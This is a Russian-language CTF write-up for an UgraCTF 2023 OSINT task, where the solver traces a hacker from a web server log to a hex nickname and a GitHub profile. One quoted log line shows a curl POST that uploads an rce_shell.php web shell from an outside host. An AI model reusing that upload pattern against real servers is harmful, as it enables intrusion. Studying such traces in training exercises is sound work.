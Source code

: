 # OSINT / Кто ищет, тот всегда найдёт
Author: [baksist](https://ucucu.ga/baksist)  
URL: https://q.2023.ugractf.ru/tasks/elementary/  
Downloads: [access.log](access.log)

### Задание

> Одному хакеру настолько сильно понравился наш курс, что он решил его взломать. Сможете его 
> найти?  

> Добавлено 15 января в 00:00:  
> 
> Подсказка 1. Хакер знал, что его будут пытаться найти в подобном файле, и достаточно неплохо 
> замаскировался. Будьте внимательнее.  
> 
> Подсказка 2. Когда вы увидите его имя, не пытайтесь найти в нём глубинные смыслы. Оно просто 
> вот такое, каким вы его видите.  

> Добавлено 15 января в 14:15:  
> 
> Подсказка 3. Если вы уже нашли личный сайт хакера, то вы знаете его ник. Разве вам нужно что-то 
> ещё?

### Решение: 

Открываем `log` файл и роемся.  
Среди мусора находим следующую достаточно интересную строчку  
```
20.22.13.37 - - [15/May/2022:09:02:16 +0300] "POST /upload?file=https://ugrac1f.ru/attack_share/rce_shell.php HTTP/2.0" 200 38 "-" "curl/7.54.1"
```

![img_1](img/img_1.png)

Переодим на сайт [https://ugrac1f.ru/](https://ugrac1f.ru/)

![img_2](img/img_2.png)

Можно долго гадать, что это и даже перевести в другой вид и после декодирования это будет 
`UgraC1F`  
Но на самом деле это `0x55677261433146` никнейм (Подсказка 3)

Идем в [сервис проверки никнеймов](https://namechk.com/)

![img_3](img/img_3.png)

Далее на [GitHub https://github.com/0x55677261433146](https://github.com/0x55677261433146)

![img_4](img/img_4.png)

Флаг найден!